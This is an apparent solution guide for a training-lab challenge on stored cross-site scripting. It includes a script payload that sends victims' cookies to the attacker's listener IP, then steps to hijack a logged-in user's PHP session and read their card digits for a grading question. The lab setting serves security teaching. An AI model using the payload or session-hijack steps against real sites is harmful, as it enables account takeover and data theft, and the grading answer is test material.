

# Web Application Penetration Testing: Cross-Site Scripting (XSS)

## Mini-challenge Solution Guide

1. (**Kali**) Open the `Kali` console and login with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. 

3. (**Kali, Firefox**) Click the `SITE FEEDBACK` link on the top navigation menu. This is the feature we will exploit with a stored cross-site scripting attack.  


4. (**Kali, Terminal**) Before providing our site feedback, we want to set up a simple web server as a listener to see if our malicious script can capture any session cookies. Open a terminal window and enter the following command to start a Python web server that is listening on port 80.

```
python3 -m http.server 80
```


5. (**Kali, Terminal**) Open a new terminal window on your Kali VM and get your IP address by typing `ip a` then hitting enter. Your IP address will the address attached to the `eth0` network interface. In this case, the IP address is `10.5.5.56`, but your IP address may be different. Take note of this IP address as we will need it in the next step.


6. (**Kali, Firefox**) Go back to the feedback page on the market web site. The `Leave feedback` text box looks like a great place for a potential place to inject and store malicious JavaScript. Enter the following text in the `Leave feedback` field, making sure to replace the IP address of `10.5.5.56` with your IP address that was obtained in the previous step.

```
<script>fetch('http://10.5.5.56/?c='+document.cookie)</script>
```

7. (**Kali, Firefox**) Click the `Submit Feedback` button to add your feedback to the market site. You will see a blank entry under anonymous (assuming you didn't log in) and you will see a session key pop up in the console window.

8. (**Kali, Terminal**) Return to the terminal where you started the web server. You should be able to confirm that you are capturing session ids from cookies. 

9. (**Kali, Firefox**) Open a new tab and navigate to `https://skills.hub/lab/tasks`. Click the `Submit` button. 


10. You should see this page when the victim user login is complete:



11. (**Kali, Terminal**) Return to the terminal where you started the web server. You should be able to confirm that you have captured a new session id from a logged in user who viewed your review. It will be from IP `10.5.5.5`.

12. (**Kali, Terminal**) Copy the `PHPSESSID` cookie value.


13. (**Kali, Firefox**) Open a new browser tab and navigate to `http://market.skills.hub`. 

14. (**Kali, Firefox**) In the top right corner click the hamburger icon, **More tools**, then **Web Developer Tools**.


15. (**Kali, Firefox**) From the web developer tools, locate your cookies by clicking on the `Storage` tab then expanding the `Cookies` list. Open the cookie named `PHPSESSID`. 


16. (**Kali, Firefox**) Edit this value to use the `PHPSESSID` value your obtained in step 14.

17. (**Kali, Firefox**) Navigate to Home on the market web site. You are now impersonating the logged in user whose session you just hijacked.


18. (**Kali, Firefox**) Go to the user's profile page and view the last 4 digits of their credit card number. Submit this 4-digit value for the grading check.


**Grading Check Question 1**: *What are the last 4 digits of the impersonated market user's credit card?*
